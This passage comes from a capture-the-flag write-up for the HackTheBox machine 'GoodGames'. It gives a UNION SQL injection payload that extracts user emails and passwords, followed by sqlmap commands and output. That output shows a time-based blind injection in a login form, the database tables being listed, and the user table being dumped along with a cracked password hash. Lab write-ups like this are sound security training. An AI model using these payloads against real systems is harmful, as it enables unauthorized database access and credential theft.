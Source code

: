>   `' union select 1,2,3,concat(id, ":", name, ":", email, ":", password) from user-- -`

### `sqlmap` Method

Instead of manually testing for SQL injection, we can just use `sqlmap`!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# cat login_request.txt
POST /login HTTP/1.1
Host: 10.10.11.130
...
Upgrade-Insecure-Requests: 1

email=shiro&password=password

┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# sqlmap -r login_request.txt --batch            
...
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=shiro' AND (SELECT 5981 FROM (SELECT(SLEEP(5)))BwdU) AND 'rWMN'='rWMN&password=password
---
[19:37:27] [INFO] the back-end DBMS is MySQL
...

┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# sqlmap -r login_request.txt --batch --dbs
...
[19:40:57] [INFO] retrieved: 
[19:41:02] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[19:42:00] [INFO] retrieved: main
available databases [2]:
[*] information_schema
[*] main
...

┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# sqlmap -r login_request.txt --batch -D main --tables
...
[19:44:36] [INFO] retrieved: blog
[19:44:51] [INFO] retrieved: blog_comments
[19:45:28] [INFO] retrieved: user
Database: main
[3 tables]
+---------------+
| user          |
| blog          |
| blog_comments |
+---------------+
...

┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# sqlmap -r login_request.txt --batch -D main -T user --dump
...
[19:54:36] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'                            
Database: main                                                                                                       
Table: user
```
